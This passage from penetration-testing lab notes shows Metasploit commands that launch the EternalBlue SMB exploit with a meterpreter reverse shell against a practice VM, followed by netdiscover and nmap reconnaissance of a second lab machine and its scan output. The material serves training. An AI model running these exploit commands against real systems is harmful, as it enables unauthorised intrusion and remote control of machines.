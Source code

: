 * This exploit module is given as exploit/windows/smb/ms17_010_eternalblue, so we can run it using Metasploit framework:

```shell
msfconsole

use exploit/windows/smb/ms17_010_eternalblue
#by default, payload is windows/x64/meterpreter/reverse_tcp

options

set RHOSTS 10.0.2.8

show targets

exploit
```

* Hence, the 'Eternal Blue' exploit worked and we got access to Blue.

## Academy

---

* After switching on the machine, we can start scanning from Kali Linux to discover the machine and do further operations:

```shell
netdiscover -r 10.0.2.0/24
#shows machine with address 10.0.2.15, IP of Academy

ping 10.0.2.15
#ping works as well, checking if machine is up

nmap -T4 -p- -A 10.0.2.15
#nmap to scan all ports
```

* From the nmap scan, we get the following results:

```shell
21/tcp - open - ftp - vsftpd 3.0.3
ftp-anon: Anonymous FTP login allowed (FTP code 230)
_-rw-r--r-- - 1 - 1000 - 1000 - 776 - May 30 2021 - note.txt
FTP server status - Connected to ::ffff:10.0.2.7 - Logged in as ftp - TYPE: ASCII
22/tcp - open - ssh - OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
ssh-hostkey: 
  2048 c7:44:58:86:90:fd:e4:de:5b:0d:bf:07:8d:05:5d:d7 (RSA)
  256 78:ec:47:0f:0f:53:aa:a6:05:48:84:80:94:76:a6:23 (ECDSA)
  256 99:9c:39:11:dd:35:53:a0:29:11:20:c7:f8:bf:71:a4 (ED25519)
80/tcp - open - http - Apache httpd 2.4.38 (Debian)
http-title: Apache2 Debian Default Page: It works
http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:E7:E8:11 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
